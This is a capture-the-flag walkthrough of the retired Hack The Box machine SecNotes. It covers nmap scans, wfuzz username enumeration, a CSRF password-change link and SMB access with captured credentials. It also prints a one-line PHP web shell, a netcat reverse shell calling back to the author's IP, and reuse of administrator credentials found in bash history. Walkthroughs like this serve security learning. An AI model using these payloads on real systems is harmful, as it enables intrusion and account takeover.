




# SecNotes

This is the write-up for the box SecNotes that got retired at the 19th January 2019.
My IP address was 10.10.14.20 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.97    secnotes.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/secnotes.nmap 10.10.10.97
```

```markdown
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Full TCP port scan:
```markdown
nmap -p- 10.10.10.97
```
```markdown
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

Running default scripts and version enumeration on port 8808:
```markdown
nmap -sC -sV -p 8808 10.10.10.97
```
```markdown
PORT     STATE SERVICE VERSION
8808/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page there is a login form and the possibility to sign up:



When trying out some usernames and passwords it says _"No account found with that username."_ but after creating a user and sending wrong credentials it does not show this message, which means this is a way to enumerate usernames.

Lets send this to any web proxy tool like **Burpsuite** to get the HTTP header and try to brute-force some usernames with **Wfuzz**:
```markdown
wfuzz -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=Pass1234" --hs "No account found with that username." http://10.10.10.97/login.php
```

It finds one username called _tyler_. After logging in with our created user, it shows that name also on the top in a message:



The feature _"New Note"_ lets us create a note and when trying to create it with HTML tags, it gets parsed:
```markdown
Title
<h1>test title 1</h1>

Note
<center> test note 1</center>
```

There is no attack path with the _"New Note"_ feature.

The feature _"Change Password"_ sends the password without any token to the server:
```markdown
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
(...)
password=Pass123&confirm_password=Pass1234&submit=submit
```

When changing the **POST** parameter to **GET**, it looks like this and still works:
```markdown
GET /change_pass.php?password=Pass1243&confirm_password=Pass1234&submit=submit
```

The feature _"Contact Us"_ allows us to input any message text and allegedly sends it to _tyler_:



Lets start a listener on any port and send a link with my IP, to see if he follows links:
```markdown
Message:
http://10.10.14.20:9001
```

After some seconds the listener on port 9001 gets a connection back and confirms, that he follows links.

In summary this challenge looks like some sort of **Cross-Site-Scripting (XSS)** or **Cross-Site-Request-Forgery (CSRF)** task.

### Cross-Site-Request-Forgery Attack

In combination of sending a link to _tyler_ with a request to change the password, it would be possible that he changes his password to something we control.

Lets send _tyler_ a link of the _"Change Password"_ feature:
```markdown
Message:
http://10.10.10.97/change_pass.php?password=Pass123&confirm_password=Pass123&submit=submit
```

After its reviewed, the password of _tyler_ changes to _"Pass123"_ and login as him works:



One of the notes look like an SMB path and credentials:
```markdown
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

## Checking SMB (Port 445)

With the gained credentials, it is possible to enumerate the SMB shares with **SMBmap**:
```markdown
smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97
```
```markdown
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             READ ONLY       Remote IPC
new-site         READ, WRITE
```

There are Read-Write permissions on the _new-site_ share.
```markdown
smbclient -U tyler%92g!mA8BGjOirkL%OG*& \\\\10.10.10.97\\new-site
```

There are only two files called _iisstart.html_ and _isstart.png_ which are default IIS files.

## Checking HTTP (Port 8808)

On the web page on port 8808 it shows the default IIS site which were found in the SMB share.
This means that any uploaded file on the SMB share will also be on this web service and thus we have control over the web service.

Creating a **PHP** shell:
```markdown
<?php system($_REQUEST['cmd']) ?>
```

Uploading it to the SMB share:
```markdown
smb: \> put shell.php
```

Accessing it and executing `whoami`:
```markdown
http://10.10.10.97:8808/shell.php?cmd=whoami
```

The output is _secnotes\tyler_ and proofs successful code execution.
Lets upload **Netcat for Windows** and start a reverse shell connection:
```markdown
smb: \> put nc64.exe
```

Starting reverse shell with **Netcat**:
```markdown
http://10.10.10.97:8808/shell.php?cmd=nc64.exe 10.10.14.20 9001 -e powershell
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell session as the user _tyler_.

## Privilege Escalation

In the home directory of _tyler_ in the _Desktop_ folder is a file called _bash.lnk_ which is a link file that links to _"C:\Windows\System32\bash.exe"_.
So on this Windows box is a _bash_ shell that can be used by simply executing `bash`.

On this _bash terminal_ it says that we are root, but this doesn't make us Administrator on the box.
The _/root/.bash_history_ file has contents in it and in there is a command with credentials:
```markdown
(...)
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
(...)
```

Lets use the command ourselves from our local client:
```markdown
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```

Now we are connected to the SMB share as Administrator and can obtain any file on the box!

With **psexec** it is also possible to gain a shell with _Administrator_:
```markdown
python3 psexec.py administrator@10.10.10.97
```
